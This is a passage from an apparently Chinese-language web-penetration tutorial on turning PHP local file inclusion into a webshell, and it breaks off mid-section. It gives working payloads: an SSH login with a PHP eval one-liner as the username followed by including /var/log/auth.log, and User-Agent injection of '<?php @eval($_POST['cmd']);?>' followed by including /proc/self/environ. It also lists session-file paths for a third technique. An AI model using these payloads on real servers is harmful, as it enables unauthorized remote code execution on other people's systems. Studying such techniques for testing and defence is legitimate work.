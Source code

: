 

#### 4、包含SSH日志Getshell

前提：

* 需要知道ssh登录日志存放路径
* ssh日志可读
* 目标主机开启ssh服务

在Linux系统中，默认的ssh登录日志文件路径/var/log/auth.log

```php
ssh连接目标主机，然后随机输入密码，一句话目标会写入到目标主机/var/log/auth.log文件中
ssh 'eval($_POST['cmd']);?>'@目标主机ip地址  

包含日志文件Getshell
?file=/var/log/auth.log
```



#### 5、包含environ文件Getshell

前提：

* php以cgi方式运行，这样environ才会保持UA头。
* environ文件存储位置已知，且environ文件可读。

/proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它即可

```php
在请求数据包中添加一句话目标到user-agent中
User-Agent：<?php @eval($_POST['cmd']);?>

包含/proc/self/environ文件Getshell
?file=/proc/self/environ
```



#### 6、包含SESSION文件Getshell

前提：

* 找到Session内的可控变量
* Session文件可读写，并且知道存储路径

php的session文件的保存路径可以在phpinfo的session.save_path看到

**常见的session存放路径：**

* /var/lib/php/sess_PHPSESSID
* /var/lib/php/sess_PHPSESSID
* /tmp/sess_PHPSESSID
* /tmp/sessions/sess_PHPSESSID
* session文件格式： sess_[phpsessid] ，而 phpsessid 在发送的请求的 cookie 字段中可以看到

案例分析：

 session文件源码
